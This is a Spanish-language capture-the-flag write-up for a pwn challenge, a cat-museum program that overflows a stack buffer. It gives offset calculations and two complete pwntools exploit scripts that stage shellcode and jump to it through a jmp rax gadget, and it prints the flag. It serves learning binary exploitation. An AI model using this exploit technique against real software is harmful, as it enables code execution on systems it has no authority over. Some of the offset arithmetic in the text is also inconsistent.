










- **Dificultad:** *Medio*
- **Categoria:** *pwn*
- **Herramientas:** *(ghidra, python, pwntools, cutter, gdb)*

### Descripción 

Este binario presenta un gestor de un museo de gatos con 4 funcionalidades: ver gatos, añadir gatos, editar descripciones y salir con reseña. La vulnerabilidad principal reside en un buffer overflow en la reseña final, donde se reservan 8 bytes pero se leen 32, permitiendo control del flujo de ejecución.

### Analisís general del binario

##### Seguridad del binario



El binario no tiene canary, PIE deshabilitado y stack ejecutable. Por lo que ya se nos va dando una idea de por donde va el reto.

##### Prueba del programa



Luego de probar el programa, todo parece funcionar correctamente, asi que procedo a ghidra para desemsamblar y entender el codigo de una mejor manera.

##### Test en gdb:

Vemos las funciones que contiene el programa


---

### Ingeniería Inversa y Explotación

Luego de desemsamblar todas las funciones vemos que hay una que es que realiza la logica de toda la aplicación que es *museum*.



Por lo que procedemos a desemsamblar *museum*. Luego de leer el codigo de *museum* y cambiar el nombre de las variables para entender mejor, vemos un buffer overflow en la reseña final, donde se reservan 8 bytes pero se leen 32, permitiendo control del flujo de ejecución.



Vemos arriba que la variable solo reserva 8 bytes ***char buffer_review [8]*** pero el programa permite escribir hasta *0x20* que es 32 en decimal.

##### Calculando offset

Vemos esto en ghidra que nos dice que el *buffer_review* inicia exactamente 12 bytes(*0xc*) antes de *RBP* por lo que a partir del caracter 12 podemos sobreescribir *RBP* y ya en el 20 estaremos escribiendo RIP



Es decir que a partir del byte 20 estaremos controlando el flujo del programa.

Al ver esto pienso en ingresar un shellcode ya que tenemos memoria ejecutable, pero el espacio que tenemos en el reveiew para ingresar los bytes necesesario es muy pequeño. Mucho mas pequeña de lo que necesitamos.

Por lo tanto tenemos que buscar otra manera de ejecutar el shell code. Viendo el codigo de nuevo notamos que hay otro lugar donde podemos ingresar el shellcode por completo. Y ya en el review detonar el bufferoverflow.



Este nos permite escribir hasta 64 bytes(*0x40*) lo que sera suficiente para el shellcode.

###### Problema

Ahora mismo luego de escribir el shellcode en la descripcion debemos pasarle esa direccion al RIP para que salte a ella y comience a ejecutarlo. Por lo que tenemos que buscar una manera de hacerlo.

##### POC

Lo que haremos será poner un pequeño codigo en review donde hara el calculo de rax hacia el shellcode. Luego escribiremos RIP con esa direccion para que salte ahi y lo ejecute. ***¿Por que harémos esto?*** te preguntaras.

Por reglas de cómo se programan los sistemas operativos (la convención de llamadas), cuando la función fgets termina su trabajo, siempre guarda la dirección de memoria exacta de donde acaba de escribir en un registro llamado RAX. Por tanto si ejecutamos **jmp RAX** haremos que el programa ejecute lo que escribimos en review.

Con un ROPgadget veremos nuestro jmp RAX



Viendo las variables y en que ubicación estan en el stack en cutter. Nos fijamos que nuestro shellcode se almaceno en ***stack - 0x338***.



Pero tenemos que restarle el el nombre del gato que esta son *0x10* bytes (16 en decimal) para saltarnos el nombre del gato y llegar a la descripcion. por lo tanto nuestro shellcode se encuentra en *0x338 - 0x10 = 0x228*



Por conveniencia elegiriemos modificar el gato 0 para que cuando multiplique option * *0x50* de 0 es decir escribiremos en al principio del array de caracteres.
Ahora tenemos que calcular el salto desde review, como vimos mas arriba la review estaba en **RBP - 0xc** y nuestro shellcode esta en **RBP - 0x328**, por tanto para saber cuantos bytes tenemos que retroceder solo hay que restar estos 2. **0x328 - 0xc** = **0x31c**. Y saltar ahi.

### Primer Exploit

```python

from pwn import *

context.binary = elf = ELF('./car-museum')

p = process('./car-museum')

jmp_rax = 0x40118c
shellcode = asm(shellcraft.amd64.linux.sh()) # Pesa 48 bytes

nop_sled = b'\x90' * 8 
payload_desc = nop_sled + shellcode

p.sendlineafter(b'Choice: ', b'3')           
p.sendlineafter(b'editing? ', b'0')          
p.sendlineafter(b'description: ', payload_desc)

p.sendlineafter(b'Choice: ', b'4')          
p.sendlineafter(b'[y/n]', b'y')              

short_jump = asm('''
    sub rax, 0x31c
    jmp rax
''') 

payload_review = short_jump.ljust(12, b'\x90')
payload_review += p64(0xdeadbeef)
payload_review += p64(jmp_rax)

p.sendlineafter(b'Review: ', payload_review)
p.interactive()

```

Pero ahi hay un problema que no me percate al inicio y es esto.

En ghidra y cutter vi esta linea de aqui arriba que lo que hace es poner un byte nulo a la posición 7 de nuestro codigo que introducimos en review, por ende lo corta y por eso cuando el programa vuelve despues del gadget a ejecutar nuestro codigo tira un error debido a que no es capar de entender esa instrucción. Si traducimos nuestro codigo exactamente a exadecimal se ve asi.


- Indice 0 a 5: sub rax, 0x31c = \x48\x2d\x1c\x03\x00\x00 (6 bytes)
- Indice 6 y 7: jmp rax = \xff\xe0 (2 bytes)`


Cuando el programa ejecuto su trampa (MOV ... 0x0), cambío nuestro índice 7 por la fuerza. Nuestro \xff\xe0 se habría convertido mágicamente en \xff\x00


##### La solución

Agregamos dos nop al principio de nuestro código.

- Índice 0: \x90 (nop)
- Índice 1: \x90 (nop)
- Índice 2 a 7: \x48\x2d\x1c\x03\x00\x00 (sub rax, 0x31c)
- Índice 8 y 9: \xff\xe0 (jmp rax)

Ya el 0x0 no nos molesta

#### Exploit funcional

```python

from pwn import *

context.binary = elf = ELF('./car-museum')

p = process('./car-museum')

jmp_rax = 0x40118c
shellcode = asm(shellcraft.amd64.linux.sh()) # Pesa 48 bytes

nop_sled = b'\x90' * 8 
payload_desc = nop_sled + shellcode

p.sendlineafter(b'Choice: ', b'3')           
p.sendlineafter(b'editing? ', b'0')          
p.sendlineafter(b'description: ', payload_desc)

p.sendlineafter(b'Choice: ', b'4')          
p.sendlineafter(b'[y/n]', b'y')              

short_jump = asm('''
    nop
    nop
    sub rax, 0x31c
    jmp rax
''') 

payload_review = short_jump.ljust(12, b'\x90')
payload_review += p64(0xdeadbeef)
payload_review += p64(jmp_rax)

p.sendlineafter(b'Review: ', payload_review)
p.interactive()

```
---

##### Funcionando local


##### Funcionando remoto


---
### Flag

```bash  

upCTF{c4tc4ll1ng_1s_n0t_c00l-gvLiBAvq2f9d404a}

```